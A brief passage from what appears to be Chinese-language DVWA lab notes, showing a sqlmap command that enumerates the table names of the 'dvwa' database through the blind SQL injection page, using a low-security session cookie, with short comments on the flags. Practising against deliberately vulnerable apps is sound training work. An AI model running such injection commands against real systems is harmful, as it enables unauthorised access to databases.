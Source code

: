 ![image-20230805103250108](./DVWA.assets/image-20230805103250108.png)



暴表名

```shell
sqlmap -u "http://192.168.80.145/dvwa/vulnerabilities/sqli_blind?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=14e25onisogeuh3n3mlfkegd9s" -D 'dvwa'  --tables --batch


# -D 要爆破的数据库名
# --tables 暴表名
```

![image-20230805103343316](./DVWA.assets/image-20230805103343316.png)
